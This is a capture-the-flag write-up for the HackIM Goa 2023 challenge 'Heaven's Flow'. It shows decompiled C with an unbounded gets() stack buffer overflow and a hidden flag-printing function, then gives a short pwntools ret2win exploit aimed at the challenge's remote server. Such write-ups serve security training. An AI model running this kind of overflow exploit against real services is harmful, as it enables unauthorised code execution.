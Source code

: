 # PWN CHALLENGES from HACKIM GOA23

## Heaven's Flow

<b>We are given as 64 Bit ELF Binary that is linked with libc version equal or higher than 2.34 .So we have to patch it if we have lower libc versions </b>

Here is the important part of the decompiled code of the main function where the bug is:- 

```c
  char local_218 [524];
  int local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("Welcome to heaven!");
  puts("what would you like to do here:");
  printf(" 1. rest\n 2. have fun\n 3. relive a memory\n 4. get the flag\n>>");
  gets(local_218);
```



At  the very last line of the code snippet is they have used **gets** function which is vulnerable to buffer overflow because it doesn't have size parameter which limits the number of characters being read.

And there is a suspicious looking function in the binary :-**heavens secret**

```c
void heavens_secret(void)

{
  int iVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  do {
    iVar1 = fgetc(__stream);
    putchar((int)(char)iVar1);
  } while ((char)iVar1 != -1);
  fclose(__stream);
  return;
}
```

This functions job is super simple . It opens the flag file and print out its content.



So it's basically a **ret2win** challenge where we have to overflow the buffer and tamper the return address with this function .

Let's first analyse the security mitigations present in the binary  to decide on our approach for this challenge

| Mitigation   | Stance            |
| ------------ | ----------------- |
| RELRO        | Partial RELRO     |
| Stack Canary | No Canary Found   |
| NX           | NX Enabled        |
| PIE          | No PIE (0x400000) |

No serious mitigations present in this challenge . So we will proceed to the simple ret2win technique.

The buffer along with the padding and base pointer address will sum upto 536 characters after anything that will tamper the stored return address.

The exploit for the challenge is :-

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("./heaven_patched")
r = remote("52.59.124.14",10050)
exploit = b"A" * 536 + p64(e.sym.heavens_secret)
r.sendline(exploit)
r.interactive()
```

